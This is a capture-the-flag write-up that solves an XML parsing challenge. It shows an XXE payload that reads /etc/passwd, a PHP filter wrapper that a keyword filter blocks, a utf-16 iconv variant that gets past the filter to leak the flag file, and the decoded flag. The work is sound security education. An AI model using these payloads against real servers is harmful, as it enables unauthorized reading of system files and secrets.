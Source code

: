 ![](../../.gitbook/assets/syntaxcheck1.png)

Okay, so we don't exactly know what's going on but our XML is parsed and "rendered". We immediately think of XXE injection:

```text
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<foo>&test;</foo>
```

This payload does leak `/etc/passwd`!

But once we want to exfiltrate the file of interest:

![](../../.gitbook/assets/syntaxcheck2.png)

Some kind of filter prevents us from getting its contents...

Let's try a classic PHP filter and some path obfuscation:

```text
php://filter/read=convert.base64-encode/resource=/var/./www/../www/html/./flag
```

Still won't work: this time around we get an error saying something like "Are you trying to exfiltrate data using base64?".

After some trial and error, we manage to find a good filter:

```text
php://filter/read=convert.iconv.utf-16le.utf-8/resource=/var/www/html/flag
```

This outputs the contents of the file but with some utf-16 conversion, which makes it look like random Chinese characters.

```text
瑣筦㈰摢㠴㈶㌷㈰㌶㈶㡥㙡㘹挱㍤〳㠳㈱㜰挳〵慦㔷戹㈴戰攱愷ㄱ㉡㍣扡.〳
```

We can now retrieve the true contents of the file by encoding what we get back into utf-16, for instance using Cyberchef:

```text
ctf{02bd486273026362e8a6961cd3303812073c50fa759b420b1e7a11a2c3ab0130}
```

Enjoy :\)

